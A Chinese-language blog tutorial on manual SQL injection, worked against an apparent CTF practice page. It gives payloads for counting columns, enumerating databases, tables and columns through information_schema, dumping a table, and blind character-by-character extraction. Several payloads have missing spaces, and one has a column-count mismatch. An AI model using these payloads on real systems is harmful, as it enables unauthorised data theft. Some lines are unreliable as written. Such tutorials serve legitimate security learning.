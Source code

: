 ```yaml
---
layout: default
---
```



最近一直在研究SQL注入攻击，现在对SQL注入进行一个总结：
SQL注入的原理就不在这里赘述了，直接从攻击技巧开始：

# 手工注入猜解流程 #
假设我们现在以[http://ctf5.shiyanbar.com/8/index.php?id=1](http://ctf5.shiyanbar.com/8/index.php?id=1 "http://ctf5.shiyanbar.com/8/index.php?id=1")这个链接为例子，已知它的id是一个注入点：
我们可以大概知道它的SQL语句大概是这么写的：


    SELECT ID,CONTENT FROM TABLE WHERE ID=id

（1）得到字段总数：
我们通过order by语句来判断select所查询的字段数目：
payload为：

    id=1 order by 1/2/3/4
发现当使用order by 3的时候有报错回显，所以select 的字段一共是3个

（2）得到显示位：
在页面上会显示从select中选取的字段，我们接下来就是要判断显示的字段是哪几个字段
使用如下的payload(两者均可)进行判断。
payload为：

    id=-1 union select 1,2,3 或者id=1 and 1=2 union select 1,2,3
从中就可以判断到显示的是从select选出来的第几位和第几位的信息

（3）查询数据库信息：
在知道了显示位之后，那么接下来就可以通过显示位来显示我们想知道的信息，如数据库的版本，用户信息等等。那么我们使用如下的payload就可以知道相关的信息。
payload：

    id=-1 union select1,version(),database()

![](http://img.blog.csdn.net/20170111101223544?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzQ4NDE4MjM=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)

可以看到在页面上就出现了数据库的版本信息和当前使用的数据库信息。
类似的函数还有：
system_user()--数据库的系统用户
current_user()---当前登陆的数据库用户
last_insert_id()---最后一次插入操作的id
那么接下来我们通过这种方式知道数据库中所有的数据库的名称。

payload:

    id=-1 union select 1,2,SCHEMA_NAMEfrom information_schema.SCHEMATA limit 0,1 #得到第一个库名
payload:


    id=-1 union select 1,2,SCHEMA_NAME from information_schema.SCHEMATA limit 1,1 #得到第二个库名
或者是：

    id=-1 union select 1,2,group_concat(schema_name) from information_schema.SCHEMATA#

![数据库结果](http://img.blog.csdn.net/20170111100939384?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzQ4NDE4MjM=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)
![这里写图片描述](http://img.blog.csdn.net/20170111101034916?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzQ4NDE4MjM=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)

这样我们可以知道存在有两个数据库，一般information_schema是第一个数据库，是系统自动生成的库

（4）查询表名：
由于database()返回的就是当前web程序所使用的数据库名，那么我们就利用database()来查询所有的表信息。当然在上一步中。我们也已经知道当前的database就是my_db.
payload:

    id=-1 union select 1,group_concat(table_name),3 from information_schema.tableswhere table_schema=database()
这样我们就得到当前数据库下所有的表名了。页面返回的结果是：

![这里写图片描述](http://img.blog.csdn.net/20170111101516654?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzQ4NDE4MjM=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)

即在当前数据库下存在两个表：news和thiskey

（5）查询列名：
在知道了表名之后，接下来我们利用information_schema.columns就可以根据表名来获取当前表中所有的字段。
payload：

    id=-1 union select 1,group_concat(column_name),3 from information_schema.columnswhere table_name='thiskey'
如果'被屏蔽：
payload：

    id=-1 unionselect 1,group_concat(column_name),3 from information_schema.columns where table_name=0x746869736b6579(thiskey的十六进制)

![这里写图片描述](http://img.blog.csdn.net/20170111102529831?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzQ4NDE4MjM=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/Center)

可以知道有k0y列。但是有的时候后台的代码可能仅用了使用where子句，那么这个时候就无法通过information_schema.coumns来得到列名了，这个时候只能够根据你自己多年的黑客经验来进行猜解了。猜解的方法也是比较的简单，使用exists子句就可以进行猜解了。假设在我们已经知道了表名的情况下(当然猜解表名也使用通过exists子句来完成)

payload：

    id=1 and exists(selectk0y from thiskey)
主要的语句就是exists(select 需要猜解的列名 from users)这种句式。如果在users表中不存在uname列名，则页面不会显示内容或者是直接出现sql的错误语句。

(6)爆出字段内容
在知道了当前数据库所有的表名和字段名之后，接下来我们就可以dump数据库中所有的信息了。比如我们下载当前thiskey表中所有的数据。

payload：

    id=-1 union select 1,group_concat(k0y) from thiskey
这个是最乐观的状态
还有些情况需要一位一位的比较才能获取字段内容：（也就是sqlmap主要做的工作之一）

payload:

    id=1 and ascii(substring((select concat(k0y,0x3a) from thiskey limit 0,1),1,1))>64
意思为如果k0y第一条记录的第一位的ascii码>64则返回正常页面
又或者是

    id=1 and ascii(substring((select k0y from thiskey),0,1))=119

    id=1 and ascii(substring((select k0y from thiskey),0,1))>64
意思都是一样的
这样通过不断比较可以获得字段具体内容